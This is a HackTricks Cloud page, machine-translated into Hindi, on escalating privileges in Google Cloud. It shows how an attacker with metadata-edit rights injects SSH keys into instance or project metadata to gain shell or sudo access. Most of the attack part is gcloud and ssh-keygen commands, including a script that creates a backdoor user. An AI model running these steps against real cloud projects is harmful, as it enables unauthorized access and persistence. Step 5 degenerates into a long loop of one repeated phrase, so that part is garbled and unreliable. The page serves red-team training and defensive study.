 # GCP - अपनी विशेष SSH मेटाडेटा जोड़ें

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## मेटाडेटा को संशोधित करना <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

एक इंस्टेंस पर मेटाडेटा संशोधन किया जा सकता है जो यदि किसी हमलावर को आवश्यक अनुमतियाँ प्राप्त हो जाएं तो **महत्वपूर्ण सुरक्षा जोखिमों** का कारण बन सकता है।

### **कस्टम मेटाडेटा में SSH कुंजियों को शामिल करना**

GCP पर, **Linux सिस्टम** अक्सर [Google Compute Engine के लिए Python Linux Guest Environment](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) से स्क्रिप्ट चलाते हैं। इसका एक महत्वपूर्ण घटक है [खाते डेमन](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), जो इंस्टेंस मेटाडेटा एंडप्वाइंट पर **अधिकृत SSH सार्वजनिक कुंजियों के लिए अपडेट** की जांच करने के लिए डिज़ाइन किया गया है।

इसलिए, यदि कोई हमलावर कस्टम मेटाडेटा को संशोधित कर सकता है, तो वह डेमन को एक नई सार्वजनिक कुंजी मिलने के लिए बना सकता है, जो स्थानीय सिस्टम में **एकीकृत किया जाएगा**। कुंजी को `~/.ssh/authorized_keys` फ़ाइल में **मौजूद उपयोगकर्ता या संभावित रूप से `sudo` अधिकारों वाले नए उपयोगकर्ता** में जोड़ा जाएगा, कुंजी के प्रारूप पर निर्भर करता है। और हमलावर होस्ट को कंप्रमाइज़ कर सकेगा।

### **मौजूदा विशेषज्ञ उपयोगकर्ता में SSH कुंजी जोड़ें**

1. **इंस्टेंस पर मौजूदा SSH कुंजियों की जांच करें:**
- इंस्टेंस और उसकी मेटाडेटा का विवरण विवरणीय शैली में देखने के लिए कमांड को निष्पादित करें ताकि मौजूदा SSH कुंजियों को ढूंढा जा सके। उत्पादन में संबंधित खंड `मेटाडेटा` के तहत होगा, विशेष रूप से `ssh-keys` कुंजी के तहत।
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- SSH कुंजियों के प्रारूप पर ध्यान दें: उपयोगकर्ता उपयोगकर्ता नाम कुंजी से पहले आता है, जो एक अक्षमता द्वारा अलग किया गया है।

2. **SSH कुंजी मेटाडेटा के लिए एक पाठ फ़ाइल तैयार करें:**
- उपयोगकर्ताओं के विवरण और उनकी संबंधित SSH कुंजियों को `meta.txt` नामक एक पाठ फ़ाइल में सहेजें। यह नए कुंजियों जोड़ते समय मौजूदा कुंजियों को संरक्षित रखने के लिए आवश्यक है।

3. **लक्ष्य उपयोगकर्ता के लिए एक नई SSH कुंजी उत्पन्न करें (`एलिस` इस उदाहरण में):**
- नई SSH कुंजी उत्पन्न करने के लिए `ssh-keygen` कमांड का उपयोग करें, सुनिश्चित करें कि टिप्पणी क्षेत्र (`-C`) लक्ष्य उपयोगकर्ता के नाम से मेल खाता है।
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- नई सार्वजनिक कुंजी को `meta.txt` में जोड़ें, इंस्टेंस की मेटाडेटा में पाए जाने वाले प्रारूप की तरह।

4. **इंस्टेंस की SSH कुंजी मेटाडेटा को अपडेट करें:**
- `gcloud compute instances add-metadata` कमांड का उपयोग करके इंस्टेंस पर अपडेटेड SSH कुंजी मेटाडेटा लागू करें।
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **नई SSH कुंजी का उपयोग करके इंस्टेंस तक पहुंचें:**
- नई कुंजी का उपयोग करके SSH के साथ इंस्टेंस से कनेक्ट करें, लक्ष्य उपयोगकर्ता (`एलिस` इस उदाहरण में) के संदर्भ में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल म
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### परियोजना स्तर पर SSH कुंजियाँ <a href="#sshing-around" id="sshing-around"></a>

एक क्लाउड वातावरण में **परियोजना स्तर पर SSH कुंजियाँ लागू करके** एसएसएच एक्सेस की रेंज को विस्तारित करना संभव है। यह दृष्टिकोण किसी भी इंस्टेंस में एसएसएच एक्सेस को सुनिश्चित करता है जो परियोजना भर में एसएसएच कुंजियों को व्यक्तिगत रूप से नहीं ब्लॉक किया है। यहाँ एक संक्षेपित मार्गदर्शिका है:

1. **परियोजना स्तर पर SSH कुंजियाँ लागू करें:**
- `gcloud compute project-info add-metadata` कमांड का उपयोग करें ताकि `meta.txt` से SSH कुंजियाँ परियोजना की मेटाडेटा में जोड़ सकें। यह कार्रवाई सुनिश्चित करती है कि एसएसएच कुंजियाँ परियोजना के सभी वीएम में मान्य हैं, जब तक एक वीएम में "ब्लॉक परियोजना स्तर एसएसएच कुंजियाँ" विकल्प सक्षम नहीं है।
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **परियोजना-स्तर कुंजियों का उपयोग करके इंस्टेंस में SSH:**
- परियोजना-स्तर की SSH कुंजियाँ लागू होने पर, आप परियोजना के भीतर किसी भी इंस्टेंस में SSH कर सकते हैं। परियोजना-स्तर कुंजियों को ब्लॉक नहीं करने वाले इंस्टेंस एसएसएच कुंजी को स्वीकार करेंगे, जिससे एक्सेस प्राप्त होगा।
- एक इंस्टेंस में SSH करने का सीधा तरीका `gcloud compute ssh [INSTANCE]` कमांड का उपयोग करना है। यह कमांड आपके वर्तमान उपयोगकर्ता नाम और परियोजना स्तर पर सेट की गई एसएसएच कुंजियों का उपयोग करता है एक्सेस की कोशिश करने के लिए।


# संदर्भ
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
